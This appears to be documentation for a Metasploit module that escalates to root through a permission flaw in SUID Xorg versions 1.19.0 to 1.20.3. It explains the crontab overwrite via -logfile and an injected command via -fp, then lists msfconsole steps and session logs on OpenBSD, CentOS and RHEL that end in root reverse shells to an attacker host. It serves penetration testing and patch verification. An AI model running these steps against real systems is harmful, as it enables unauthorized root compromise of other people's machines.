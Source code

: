 ## Vulnerable Application

This module attempts to gain root privileges using Xorg X11 server versions 1.19.0 < 1.20.3 set as SUID.
A permission check flaw exists for -modulepath and -logfile options when starting Xorg.
This flaw allows users to write over existing files on the system.
This exploit backs up crontab and then uses -logfile to overwrite it.
A command to be run is set for the Font Path argument -fp which will be logged and ran by cron.

Xorg (commonly referred as simply X) is the most popular display server among Linux users.
Its ubiquity has led to making it an ever-present requisite for GUI applications,
resulting in massive adoption from most distributions.

Xorg is more restrictive to exploit under CentOS / RHEL. The user must have console lock and SeLinux may interfere.
If Selinux is enforcing crontabs context will be changed on exploit and you will be unable to clean it.

This module has been tested successfully on:

* OpenBSD 6.3
* OpenBSD 6.4
* CentOS 7.4.1708 x86_64
* CentOS 7.5.1084 x86_64
* Red Hat Enterprise Linux 7.5 x86_64


## Verification Steps

On CentOS/RHEL your session must have console lock.  To get a console lock you can login locally with a user.

1. Start `msfconsole`
2. Get a session
3. Do: `use exploit/multi/local/xorg_x11_suid_server`
4. Do: Set a payload/target or use default(cmd/unix/reverse_openssl)
5. Do: `set SESSION [SESSION]`
6. Do: `set LHOST [LHOST]`
7. Do: `run`
8. You should get a new *root* session


## Options

### Xdisplay

Display to use for Xorg (default: `:1`)

### WritableDir

A writable directory file system path (default: `/tmp`)

### ConsoleLock

Will check for console lock under linux (default: `true`)


## Scenarios

### OpenBSD

```
msf5 > use exploit/multi/local/xorg_x11_suid_server
msf5 exploit(multi/local/xorg_x11_suid_server) > set session 1
session => 1
msf5 exploit(multi/local/xorg_x11_suid_server) > set lhost 172.30.0.2
lhost => 172.30.0.2
msf5 exploit(multi/local/xorg_x11_suid_server) > set verbose true
verbose => true
msf5 exploit(multi/local/xorg_x11_suid_server) > run

[!] SESSION may not be compatible with this module.
[*] Started reverse double SSL handler on 172.30.0.2:4444
[+] Passed all initial checks for exploit
[*] Uploading your payload, this could take a while
[*] Trying /etc/crontab overwrite
[+] /etc/crontab overwrite successful
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo t2XWfcWkZHevLPS8;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "t2XWfcWkZHevLPS8\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (172.30.0.2:4444 -> 172.30.0.99:41253) at 2018-11-12 15:06:39 -0600
[+] Returning session after cleaning
[+] Deleted /tmp/.session-odRjfx

id
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
```

### CentOS 7.4.1708 x86_64

```
msf5 > use exploit/multi/local/xorg_x11_suid_server
msf5 exploit(multi/local/xorg_x11_suid_server) > set session 1
session => 1
msf5 exploit(multi/local/xorg_x11_suid_server) > set lhost 172.16.191.165
lhost => 172.16.191.165
msf5 exploit(multi/local/xorg_x11_suid_server) > set verbose true
verbose => true
msf5 exploit(multi/local/xorg_x11_suid_server) > run

[*] Started reverse double SSL handler on 172.16.191.188:4444 
[*] Running additional check for Linux
[+] Console lock for user
[+] Selinux is not an issue
[+] Xorg path found at /usr/bin/Xorg
[+] Xorg binary /usr/bin/Xorg is SUID
[+] Xorg version 1.19.3 is vulnerable
[!] Xorg in process list
[!] Could not get version or Xorg process possibly running, may fail
[+] Passed all initial checks for exploit
[*] Uploading your payload, this could take a while
[*] Trying /etc/crontab overwrite
[+] /etc/crontab overwrite successful
[*] Waiting on cron to run
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo zk0jobDMxFdBxLBU;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "zk0jobDMxFdBxLBU\n"
[*] Matching...
[*] B is input...
[*] Command shell session 7 opened (172.16.191.188:4444 -> 172.16.191.141:46318) at 2018-11-24 21:31:04 -0500
[*] Waiting on cron to run
[+] Returning session after cleaning
[+] Deleted /tmp/.session-Tafw0iW0r8

id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:unconfined_t:s0-s0:c0.c1023
uname -a
Linux centos-7-1708.localdomain 3.10.0-693.el7.x86_64 #1 SMP Tue Aug 22 21:09:27 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
```

### Red Hat Enterprise Linux 7.5 x86_64

```
msf5 > use exploit/multi/local/xorg_x11_suid_server
msf5 exploit(multi/local/xorg_x11_suid_server) > set session 1
session => 1
msf5 exploit(multi/local/xorg_x11_suid_server) > set lhost 172.16.191.165
lhost => 172.16.191.165
msf5 exploit(multi/local/xorg_x11_suid_server) > set verbose true
verbose => true
msf5 exploit(multi/local/xorg_x11_suid_server) > run

[*] Started reverse double SSL handler on 172.16.191.165:4444 
[*] Running additional check for Linux
[+] Console lock for user
[+] Selinux is not an issue
[+] Xorg path found at /usr/bin/Xorg
[+] Xorg binary /usr/bin/Xorg is SUID
[+] Xorg version 1.19.5 is vulnerable
[!] Xorg in process list
[!] Could not get version or Xorg process possibly running, may fail
[+] Passed all initial checks for exploit
[*] Uploading your payload, this could take a while
[*] Trying /etc/crontab overwrite
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo EEdPp66R4es6U3WF;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[+] /etc/crontab overwrite successful. Waiting for job to run (may take a minute)...
[*] Reading from socket B
[*] B: "EEdPp66R4es6U3WF\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (172.16.191.165:4444 -> 172.16.191.228:44978) at 2019-04-21 06:29:04 -0400
[+] Returning session after cleaning
[+] Deleted /tmp/.session-aqxyug0fH

id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:unconfined_t:s0-s0:c0.c1023
uname -a
Linux red-hat-7-5-x64.local 3.10.0-862.el7.x86_64 #1 SMP Wed Mar 21 18:14:51 EDT 2018 x86_64 x86_64 x86_64 GNU/Linux
cat /etc/redhat-release
Red Hat Enterprise Linux Server release 7.5 (Maipo)
```
